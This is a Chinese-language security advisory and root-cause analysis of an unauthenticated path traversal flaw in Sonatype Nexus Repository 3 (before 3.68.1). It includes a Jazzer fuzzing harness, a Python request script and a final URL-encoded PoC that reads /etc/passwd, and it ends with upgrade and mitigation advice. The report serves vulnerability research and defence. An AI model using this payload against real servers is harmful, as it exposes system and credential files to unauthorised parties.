










# 漏洞报告

## 漏洞概述

Sonatype Nexus Repository3 任意文件下载漏洞

漏洞类型：文件下载

漏洞等级：高危

漏洞所需权限：无权限要求

漏洞利用难度：低

## 漏洞点分析

对比 nexus-base-xxx.jar, 可以发现漏洞点位于 WebResourceServiceImpl



另外官方通告提到了 reourceBase, 位于 jetty.xml



这个其实也很容易理解, 当用户访问的 URL 没有命中任何 Servlet 时, 会 fallback 到这个 public 目录

public 目录下存放的都是些静态文件, 例如 robots.txt 以及各种图片 (favicon)



随便打几个断点, 经过一些简单的动态调试, 可以发现 WebResourceServlet 会调用 WebResourceServiceImpl 的 getResource 方法org.sonatype.nexus.internal.webresources.WebResourceServlet



这里传入的 path 不能以 `/` 结尾, 否则就会在后面加上 `index.html`, 后续在 Fuzzing 的时候需要注意这个点

```
org.sonatype.nexus.internal.webresources.WebResourceServiceImpl#getResource
```



getResource 方法会通过三种不同的方式获取资源文件

1. devModeResources: 需要手动启用开发者模式, 内部维护了一个 resourceLocations 列表, 默认为空

2. resourcePaths: 即 static 目录下的各种 js 文件和图片

   

3. this.servletContext: 即 `org.eclipse.jetty.webapp.WebAppContext`, 通过 Jetty 的 WebAppContext 获取资源文件

经过测试可以发现如果我们访问 public 目录下的文件, 例如 robots.txt, 则会 fallback 到第三种方式, 也就是 `org.eclipse.jetty.webapp.WebAppContext#getResource`

这里其实就已经到了 Jetty 自身的逻辑, 跟 Nexus 没有关系了

直接给出调用栈

```
<init>:261, PathResource (org.eclipse.jetty.util.resource)
addPath:380, PathResource (org.eclipse.jetty.util.resource)
getResource:1958, ContextHandler (org.eclipse.jetty.server.handler)
getResource:389, WebAppContext (org.eclipse.jetty.webapp)
getResource:1562, WebAppContext$Context (org.eclipse.jetty.webapp)
getResource:127, WebResourceServiceImpl (org.sonatype.nexus.internal.webresources)
doGet:98, WebResourceServlet (org.sonatype.nexus.internal.webresources)
service:687, HttpServlet (javax.servlet.http)
service:790, HttpServlet (javax.servlet.http)
doServiceImpl:293, ServletDefinition (com.google.inject.servlet)
doService:283, ServletDefinition (com.google.inject.servlet)
service:184, ServletDefinition (com.google.inject.servlet)
service:71, DynamicServletPipeline (com.google.inject.servlet)
doFilter:85, FilterChainInvocation (com.google.inject.servlet)
doFilter:61, ProxiedFilterChain (org.apache.shiro.web.servlet)
executeChain:108, AdviceFilter (org.apache.shiro.web.servlet)
doFilterInternal:137, AdviceFilter (org.apache.shiro.web.servlet)
doFilter:154, OncePerRequestFilter (org.apache.shiro.web.servlet)
doFilter:66, ProxiedFilterChain (org.apache.shiro.web.servlet)
executeChain:108, AdviceFilter (org.apache.shiro.web.servlet)
doFilterInternal:137, AdviceFilter (org.apache.shiro.web.servlet)
doFilter:154, OncePerRequestFilter (org.apache.shiro.web.servlet)
doFilter:66, ProxiedFilterChain (org.apache.shiro.web.servlet)
executeChain:458, AbstractShiroFilter (org.apache.shiro.web.servlet)
executeChain:96, SecurityFilter (org.sonatype.nexus.security)
call:373, AbstractShiroFilter$1 (org.apache.shiro.web.servlet)
doCall:90, SubjectCallable (org.apache.shiro.subject.support)
call:83, SubjectCallable (org.apache.shiro.subject.support)
execute:387, DelegatingSubject (org.apache.shiro.subject.support)
doFilterInternal:370, AbstractShiroFilter (org.apache.shiro.web.servlet)
doFilterInternal:112, SecurityFilter (org.sonatype.nexus.security)
doFilter:154, OncePerRequestFilter (org.apache.shiro.web.servlet)
doFilter:82, FilterChainInvocation (com.google.inject.servlet)
doFilter:112, AbstractInstrumentedFilter (com.codahale.metrics.servlet)
doFilter:82, FilterChainInvocation (com.google.inject.servlet)
doFilter:116, LicensingRedirectFilter (com.sonatype.nexus.licensing.internal)
doFilter:82, FilterChainInvocation (com.google.inject.servlet)
doFilter:112, AbstractInstrumentedFilter (com.codahale.metrics.servlet)
doFilter:82, FilterChainInvocation (com.google.inject.servlet)
doFilter:79, ErrorPageFilter (org.sonatype.nexus.internal.web)
doFilter:82, FilterChainInvocation (com.google.inject.servlet)
doFilter:101, EnvironmentFilter (org.sonatype.nexus.internal.web)
doFilter:82, FilterChainInvocation (com.google.inject.servlet)
doFilter:98, HeaderPatternFilter (org.sonatype.nexus.internal.web)
doFilter:82, FilterChainInvocation (com.google.inject.servlet)
dispatch:104, DynamicFilterPipeline (com.google.inject.servlet)
doFilter:133, GuiceFilter (com.google.inject.servlet)
doFilter:73, DelegatingFilter (org.sonatype.nexus.bootstrap.osgi)
doFilter:201, FilterHolder (org.eclipse.jetty.servlet)
doFilter:1626, ServletHandler$Chain (org.eclipse.jetty.servlet)
doHandle:552, ServletHandler (org.eclipse.jetty.servlet)
handle:143, ScopedHandler (org.eclipse.jetty.server.handler)
handle:600, SecurityHandler (org.eclipse.jetty.security)
handle:127, HandlerWrapper (org.eclipse.jetty.server.handler)
nextHandle:235, ScopedHandler (org.eclipse.jetty.server.handler)
doHandle:1624, SessionHandler (org.eclipse.jetty.server.session)
nextHandle:233, ScopedHandler (org.eclipse.jetty.server.handler)
doHandle:1440, ContextHandler (org.eclipse.jetty.server.handler)
nextScope:188, ScopedHandler (org.eclipse.jetty.server.handler)
doScope:505, ServletHandler (org.eclipse.jetty.servlet)
doScope:1594, SessionHandler (org.eclipse.jetty.server.session)
nextScope:186, ScopedHandler (org.eclipse.jetty.server.handler)
doScope:1355, ContextHandler (org.eclipse.jetty.server.handler)
handle:141, ScopedHandler (org.eclipse.jetty.server.handler)
handle:127, HandlerWrapper (org.eclipse.jetty.server.handler)
handle:239, InstrumentedHandler (com.codahale.metrics.jetty9)
handle:146, HandlerCollection (org.eclipse.jetty.server.handler)
handle:127, HandlerWrapper (org.eclipse.jetty.server.handler)
handle:516, Server (org.eclipse.jetty.server)
lambda$handle$1:487, HttpChannel (org.eclipse.jetty.server)
dispatch:-1, 1026407993 (org.eclipse.jetty.server.HttpChannel$$Lambda$1934)
dispatch:732, HttpChannel (org.eclipse.jetty.server)
handle:479, HttpChannel (org.eclipse.jetty.server)
onFillable:277, HttpConnection (org.eclipse.jetty.server)
succeeded:311, AbstractConnection$ReadCallback (org.eclipse.jetty.io)
fillable:105, FillInterest (org.eclipse.jetty.io)
run:104, ChannelEndPoint$1 (org.eclipse.jetty.io)
runTask:338, EatWhatYouKill (org.eclipse.jetty.util.thread.strategy)
doProduce:315, EatWhatYouKill (org.eclipse.jetty.util.thread.strategy)
tryProduce:173, EatWhatYouKill (org.eclipse.jetty.util.thread.strategy)
run:131, EatWhatYouKill (org.eclipse.jetty.util.thread.strategy)
run:409, ReservedThreadExecutor$ReservedThread (org.eclipse.jetty.util.thread)
runJob:883, QueuedThreadPool (org.eclipse.jetty.util.thread)
run:1034, QueuedThreadPool$Runner (org.eclipse.jetty.util.thread)
run:750, Thread (java.lang)
```

几个关键的地方

首先 path 必须以 `/` 开头


然后会通过 PathResource 的 addPath 方法拼接路径



addPath 方法内部会先使用 URIUtil.canonicalPath 方法进行路径标准化, 如果标准化的结果为 null, 则会抛出异常



然后会将原来的 subPath 传入 PathResource 构造函数, 得到一个新的资源路径



注意 canonicalPath 的结果并不会传入 PathResource 的构造函数, 也就是说这个过程只是个 check 而不是 sanitize

再看这个方法的具体实现

```
public static String canonicalPath(String path) {
    if (path != null && !path.isEmpty()) {
        boolean slash = true;
        int end = path.length();

        int i;
        label68:
        for(i = 0; i < end; ++i) {
            char c = path.charAt(i);
            switch (c) {
                case '.':
                    if (slash) {
                        break label68;
                    }

                    slash = false;
                    break;
                case '/':
                    slash = true;
                    break;
                default:
                    slash = false;
            }
        }

        if (i == end) {
            return path;
        } else {
            StringBuilder canonical = new StringBuilder(path.length());
            canonical.append(path, 0, i);
            int dots = 1;
            ++i;

            for(; i < end; ++i) {
                char c = path.charAt(i);
                switch (c) {
                    case '.':
                        if (dots > 0) {
                            ++dots;
                        } else if (slash) {
                            dots = 1;
                        } else {
                            canonical.append('.');
                        }

                        slash = false;
                        continue;
                    case '/':
                        if (doDotsSlash(canonical, dots)) {
                            return null;
                        }

                        slash = true;
                        dots = 0;
                        continue;
                }

                while(dots-- > 0) {
                    canonical.append('.');
                }

                canonical.append(c);
                dots = 0;
                slash = false;
            }

            if (doDots(canonical, dots)) {
                return null;
            } else {
                return canonical.toString();
            }
        }
    } else {
        return path;
    }
}
```

这个方法如何进行路径标准化? 在什么情况下会返回 null? 可以通过以下几个 demo 直观地感受一下

```
URIUtil.canonicalPath("/robots.txt"); // /robots.txt
URIUtil.canonicalPath("/./etc/passwd"); // /etc/passwd
URIUtil.canonicalPath("/etc/a/b/c/../../../passwd"); // /etc/passwd
URIUtil.canonicalPath("/../etc/passwd"); // null
URIUtil.canonicalPath("/../../../etc/passwd"); // null
```

当传入的路径跳出了当前的根目录时, canonicalPath 会返回 null, 看起来是为了预防目录穿越的情况

说实话第一眼看过去我也不能立刻就想到有什么可以绕过的方法, 但是我们可以把上面这一系列的逻辑从 Jetty 中抽离出来, 使用 Fuzzing 的思路进行测试。

## Fuzzing

在 fuzz 之前我们需要编写 Test Harness, 即定义一个 fuzzerTestOneInput 方法, 然后在内部调用被 fuzz 的特定方法

对于这个漏洞而言, Test Harness 就是我们上述需要从 Jetty 中抽离出来的逻辑

```
import com.code_intelligence.jazzer.api.FuzzedDataProvider;
import com.code_intelligence.jazzer.api.FuzzerSecurityIssueCritical;
import com.code_intelligence.jazzer.api.Jazzer;
import org.eclipse.jetty.util.URIUtil;
import org.eclipse.jetty.util.resource.PathResource;

import java.net.URI;

public class Main {
    public static void fuzzerTestOneInput(FuzzedDataProvider data) {
        String path = data.consumeRemainingAsAsciiString();
        if (!path.startsWith("/")) return;
        if (URIUtil.canonicalPath(path) == null) return;
        if (path.endsWith("/")) return;
        if (!path.endsWith("/etc/passwd")) return;

        try {
            PathResource parent = new PathResource(new URI("file:///a/b/c/d"));
            PathResource child = (PathResource) parent.addPath(path);

            if (child.getPath().normalize().toString().equals("/etc/passwd")) {
                Jazzer.reportFindingFromHook(new FuzzerSecurityIssueCritical("success"));
            }
        } catch (Exception e) {
            // ignore
        }
    }
}
```

开头前面的几个 if 用于限制 fuzz 数据的范围, 后续就是通过 PathResource 拼接路径的过程

如果拼接后的路径在 normalize 之后等于 `/etc/passwd`, 那么就可以大概率认为这个数据是有效的, 然后会抛出 FuzzerSecurityIssueCritical 异常以中止 fuzz 流程

将 harness 和 Jetty 依赖打包至同一个 jar 内, 然后运行 Jazzer

## jazzer报错截图



当然直接用这个路径访问肯定是不行的, 因为 Jetty 会在 Servlet 处理之前对这种畸形 URL 进行一些标准化操作, 导致最终 Servlet 接收到的路径不是我们原来的路径, 解决方法是将路径完全 URL 编码后再发送

```
import requests

def urlencode(data):
    enc_data = ''
    for i in data:
        h = str(hex(ord(i))).replace('0x', '')
        if len(h) == 1:
            enc_data += '%0' + h.upper()
        else:
            enc_data += '%' + h.upper()
    return enc_data

payload = '///..//.//..///..//.././etc/passwd'

url = 'http://127.0.0.1:8081/' + urlencode(payload)
res = requests.get(url)
print(url)
print(res.text)
```

最终 PoC

```
http://127.0.0.1:8081/%2F%2F%2F%2E%2E%2F%2F%2E%2F%2F%2E%2E%2F%2F%2F%2E%2E%2F%2F%2E%2E%2F%2E%2F%65%74%63%2F%70%61%73%73%77%64
```



## 影响范围

Sonatype Nexus Repository3 < 3.68.1

## 修复建议

【修复建议】：

目前，官方已发布修复建议，建议受影响的用户尽快升级至安全版本。

下载地址：https://help.sonatype.com/en/download-archives---repository-manager-3.html

【临时缓解措施】：

1.对于Sonateype Nexus Repository的每个实例，编辑（basedir）/etc/jetty/jetty.xml 并从文件中删除这一行：

- -  <Set name="resourceBase"><Property name="karaf.base"/>/public</Set>

2.重新启动Nexus存储库，使更改生效。

此更改可防止利用该漏洞，但也会防止应用程序从（installdir）/public目录加载文件，可能会导致轻微的UI渲染问题，而不会影响核心产品功能。

